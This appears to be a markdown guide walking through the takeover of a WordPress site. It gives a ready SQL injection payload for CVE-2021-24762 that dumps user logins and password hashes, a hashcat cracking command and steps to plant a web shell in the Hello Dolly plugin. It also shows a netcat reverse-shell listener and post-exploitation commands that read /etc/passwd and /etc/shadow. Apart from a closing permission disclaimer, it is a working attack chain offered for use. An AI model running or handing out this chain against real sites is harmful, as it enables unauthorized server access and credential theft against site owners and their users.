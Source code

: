# Uploading a Shell in WordPress via SQLi Entry Point 

This guide walks through the process of exploiting a SQL Injection (SQLi) vulnerability in a WordPress site to upload a shell and gain access to the server.

## Target Information

The target is a WordPress website. After extensive enumeration and testing of various parameters (e.g., ID, p, search), no vulnerabilities were initially found. 

## Discovery of Vulnerability

Using WPScan, I identified a critical CVE:
- **CVE-2021-24762**: [Link to CVE](https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad)

### Exploit Payload

The payload used for exploiting this vulnerability is:

```
https://example.com/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users
```

The `question_id` must start with an existing post ID. Upon executing this payload, user credentials were leaked, including hashed passwords.

## Cracking the Hash

Using Hashcat, the hash was cracked:

```sh
hashcat -m 400 -a 0 'hash'
```

The password was immediately revealed. Using the cracked credentials, I logged into the WordPress admin panel.

## Uploading a Web Shell

1. **Login to WordPress Admin Panel**:
   - Username: `admin`
   - Password: `crackedhash`

2. **Editing a Plugin**:
   - Navigate to the Plugins section.
   - Choose the "Hello Dolly" plugin (or any other available plugin).
   - Edit the plugin file (e.g., `hello.php`) to include a web shell code.
   - Update the plugin with the modified code.

3. **Starting a Listener**:
   - Start a listener on your machine to catch the reverse shell:
   
   ```sh
   nc -lnvp 1234
   ```

4. **Activating the Shell**:
   - Visit `https://target.com/wp-content/plugins/hello.php` to activate the shell and gain access to the server.

## Post-Exploitation

After gaining shell access, check your privileges and enumerate the system for sensitive files and data. Due to privilege restrictions, enumeration might be limited.

### Simple Commands for Enumeration

Use simple commands to explore and gather information from the server:

```sh
whoami
uname -a
cat /etc/passwd
cat /etc/shadow
```

### Finding .txt Files

Use the following command to find all `.txt` files in the `/var/www` directory:

```sh
find /var/www -type f -name "*.txt"
```

The results from this command include:

```
/var/www/wordpress/wp-includes/js/swfupload/license.txt
/var/www/wordpress/wp-includes/js/plupload/license.txt
/var/www/wordpress/wp-includes/images/crystal/license.txt
/var/www/wordpress/wp-includes/ID3/readme.txt
/var/www/wordpress/wp-includes/ID3/license.txt
/var/www/wordpress/wp-includes/ID3/license.commercial.txt
/var/www/wordpress/license.txt
/var/www/wordpress/wp-content/themes/oceanwp/readme.txt
/var/www/wordpress/wp-content/themes/oceanwp/inc/customizer/assets/js/customize-search.js.LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/readme.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/dm-sans/LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/ibm-plex/LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/inter/LICENSE.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/readme.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/changelog.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/vendor/woocommerce/action-scheduler/license.txt
/var/www/wordpress/wp-content/plugins/ocean-stick-anything/readme.txt
/var/www/wordpress/wp-content/plugins/akismet/readme.txt
/var/www/wordpress/wp-content/plugins/akismet/changelog.txt
/var/www/wordpress/wp-content/plugins/akismet/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-social-sharing/readme.txt
/var/www/wordpress/wp-content/plugins/elementor/readme.txt
/var/www/wordpress/wp-content/plugins/elementor/license.txt
/var/www/wordpress/wp-content/plugins/elementor/assets/js/app.min.js.LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/readme.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/includes/freemius/includes/sdk/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/includes/freemius/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/changelog.txt
/var/www/wordpress/wp-content/plugins/perfect-survey/readme.txt
```

## Conclusion

This process demonstrates how to leverage a known vulnerability in a WordPress site to gain unauthorized access and upload a shell. Always ensure you have permission to test and exploit vulnerabilities on any target system.

